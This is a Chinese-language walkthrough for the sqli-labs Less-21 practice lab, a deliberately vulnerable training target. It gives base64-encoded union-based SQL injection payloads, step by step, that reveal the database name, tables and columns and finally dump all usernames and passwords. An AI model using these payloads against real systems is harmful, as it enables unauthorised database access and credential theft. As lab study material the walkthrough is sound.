






# Less - 21

---

# 通关教程

---

## 1、判断闭合方式

---

输入的内容会进行base64编码，所以这一关的注入内容都需要进行base64编码

```html
admin'  # base编码：YWRtaW4n
```

​​

```html
admin')# 
```

​​

---

## 2、查看当前数据库

---

```html
JykgdW5pb24gc2VsZWN0IDEsMixkYXRhYmFzZSgpIw== #') union select 1,2,database()#
```

​​

---

## 3、查看security库下的所有表

---

```html
JykgdW5pb24gc2VsZWN0IDEsMiwoc2VsZWN0IGdyb3VwX2NvbmNhdCh0YWJsZV9uYW1lKSBmcm9tIGluZm9ybWF0aW9uX3NjaGVtYS50YWJsZXMgd2hlcmUgdGFibGVfc2NoZW1hPSdzZWN1cml0eScpIw
```

​​

---

## 4、查看users表下的所有字段

---

```html
JykgdW5pb24gc2VsZWN0IDEsMiwoc2VsZWN0IGdyb3VwX2NvbmNhdChjb2x1bW5fbmFtZSkgZnJvbSBpbmZvcm1hdGlvbl9zY2hlbWEuY29sdW1ucyB3aGVyZSB0YWJsZV9uYW1lPSd1c2VycycpIw== #') union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='users')#
```

​​

---

## 5、查看username,password字段的所有的值

---

```html
JykgdW5pb24gc2VsZWN0IDEsMiwoc2VsZWN0IGdyb3VwX2NvbmNhdCh1c2VybmFtZSxwYXNzd29yZCkgZnJvbSBzZWN1cml0eS51c2Vycykj #') union select 1,2,(select group_concat(username,password) from security.users)#
```

​​
